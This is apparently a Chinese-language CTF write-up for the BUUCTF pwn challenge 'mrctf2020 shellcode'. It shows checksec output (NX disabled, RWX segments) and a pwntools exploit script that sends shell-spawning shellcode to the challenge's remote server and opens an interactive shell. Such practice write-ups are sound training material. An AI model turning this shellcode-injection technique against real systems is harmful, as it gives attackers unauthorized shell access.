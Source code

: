 ```yaml
---
author: 
  name: Zephyr
title: mrctf2020 shellcode
date: 2022-4-4 15:06:25
permalink: /pages/2e1547494524d1a5
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# mrctf2020 shellcode

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/mrctf2020_shellcode/mrctf2020_shellcode'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```



## 思路分析

1. 目前信息：
   
   - Full RELRO
   - No canary found
   - NX disabled
   - PIE enabled
   - Has RWX segments
2. 思路：
   - 有可读可写可执行权限，根据上图程序流程，直接写入`shellcode`即可

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/mrctf2020_shellcode/mrctf2020_shellcode'
io = remote('node4.buuoj.cn', 27771)
# io = process(pwnfile)
elf = ELF(pwnfile)
shellcode = asm(shellcraft.sh())
io.recv()
io.sendline(shellcode)
io.interactive()
```